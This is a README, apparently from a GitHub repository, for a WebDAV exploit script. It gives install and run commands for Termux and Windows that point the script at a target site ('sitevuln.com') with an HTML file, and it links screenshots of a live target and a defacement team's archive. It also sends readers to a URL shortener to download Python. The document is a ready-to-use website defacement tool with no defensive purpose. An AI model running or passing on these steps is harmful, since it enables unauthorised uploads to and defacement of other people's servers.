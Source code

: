 # Exploit Webdav Windows & Termux Working

# Eksekusi via Termux

pkg update && pkg upgrade

pkg install python2

pkg install openssl curl

pkg install libcurl

pip2 install urllib3 chardet certifi idna requests

git clone https://github.com/boychongzen18/webdav.git

cd webdav

chmod +x webdav.py

python2 webdav.py sitevuln.com xroot.htm

# Screenshot Via Termux
![be](https://raw.githubusercontent.com/boychongzen18/webdav/master/termux.png)
# Screenshot Live Target 
![be](https://raw.githubusercontent.com/boychongzen18/webdav/master/termux1.png)

================================================================================
# Eksekusi via Window

Download Python27 : https://shortid.co/bFWBm

git clone https://github.com/boychongzen18/webdav.git

cd webdav

chmod 777 webdav.py

python webdav.py sitevuln.com xroot.htm

# Screenshot Via Windows
![be](https://raw.githubusercontent.com/boychongzen18/webdav/master/webdav.png)

# Screenshot Target Webdav
![be](https://raw.githubusercontent.com/boychongzen18/webdav/master/target.png)

My Youtube    : https://www.youtube.com/channel/UCKdOPQ_iIXcqK17PB_2RMdQ

Link Tutorial : 

My Website    : http://hackingforlive.cf,,https://hackingforlive.wordpress.com

My Facebok    : https://web.facebook.com/xroot.xroot.7

MyTeam HFL : https://defacer.id/archive/team/hackingforlive

# Moto : Berbagi Itu Indah

# Regard Boychongzen aka Xroot

